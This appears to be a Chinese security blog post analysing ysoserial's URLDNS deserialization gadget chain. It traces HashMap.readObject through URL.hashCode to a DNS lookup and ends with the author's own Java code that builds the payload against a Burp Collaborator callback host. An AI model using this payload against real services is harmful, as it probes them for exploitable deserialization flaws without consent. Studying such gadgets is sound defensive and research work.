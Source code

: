 ```yaml
---
title: "ysoserial URLDNS分析"
date: 2020-02-12T22:28:34+08:00
draft: false
tags:
- java
- ysoserial
series:
-
categories:
- 代码审计
---
```


简单的gadget构造。
<!--more-->

## 分析

先来看ysoserial的payload
```java
public Object getObject(final String url) throws Exception {

    //Avoid DNS resolution during payload creation
    //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
    URLStreamHandler handler = new SilentURLStreamHandler();

    HashMap ht = new HashMap(); // HashMap that will contain the URL
    URL u = new URL(null, url, handler); // URL to use as the Key
    ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

    Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

    return ht;
}
```
可以看到是HashMap类的问题，而触发反序列化的⽅法是 readObject ，直奔 HashMap 类的 readObject ⽅法：
```java
private void readObject(java.io.ObjectInputStream s)
    throws IOException, ClassNotFoundException {
    // Read in the threshold (ignored), loadfactor, and any hidden stuff
    s.defaultReadObject();
    reinitialize();
    if (loadFactor <= 0 || Float.isNaN(loadFactor))
        throw new InvalidObjectException("Illegal load factor: " +
                                         loadFactor);
    s.readInt();                // Read and ignore number of buckets
    int mappings = s.readInt(); // Read number of mappings (size)
    if (mappings < 0)
        throw new InvalidObjectException("Illegal mappings count: " +
                                         mappings);
    else if (mappings > 0) { // (if zero, use defaults)
        // Size the table using given load factor only if within
        // range of 0.25...4.0
        float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
        float fc = (float)mappings / lf + 1.0f;
        int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                   DEFAULT_INITIAL_CAPACITY :
                   (fc >= MAXIMUM_CAPACITY) ?
                   MAXIMUM_CAPACITY :
                   tableSizeFor((int)fc));
        float ft = (float)cap * lf;
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                     (int)ft : Integer.MAX_VALUE);

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
        @SuppressWarnings({"rawtypes","unchecked"})
        Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
        table = tab;

        // Read the keys and values, and put the mappings in the HashMap
        for (int i = 0; i < mappings; i++) {
            @SuppressWarnings("unchecked")
            K key = (K) s.readObject();
            @SuppressWarnings("unchecked")
            V value = (V) s.readObject();
            putVal(hash(key), key, value, false, false);
        }
    }
}
```
在最后进行了hash(key)计算，跟进
```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```
进行了hashCode()函数，而key此时是我们传入的 java.net.URL 对象，那么跟进这个类的hashCode()方法看下
```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```
当hashCode字段等于-1时会进行handler.hashCode(this)计算，handler是定义的URLStreamHandler字段，那么进入java.net.URLStreamHandler#hashCode()

![image](https://y4er.com/img/uploads/20200216016235.png)

u是我们传入的URL，getHostAddress会进行dns查询。整个链比较简单：
1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()

## 构造payload
```java
package com.sera.urldns;

import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS implements Serializable {

    public static void main(String[] args) throws MalformedURLException, NoSuchFieldException, IllegalAccessException {

        URLStreamHandler handler = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }
        };
        HashMap hm = new HashMap();
        String url = "http://0jkp1tes60w8k6928kvujpirnit9hy.burpcollaborator.net";
        URL u = new URL(null, url, handler);
        Class clazz = u.getClass();

        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u, -1);
        hm.put(u, url);
    }

}
```
![image](https://y4er.com/img/uploads/20200216015833.png)


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**

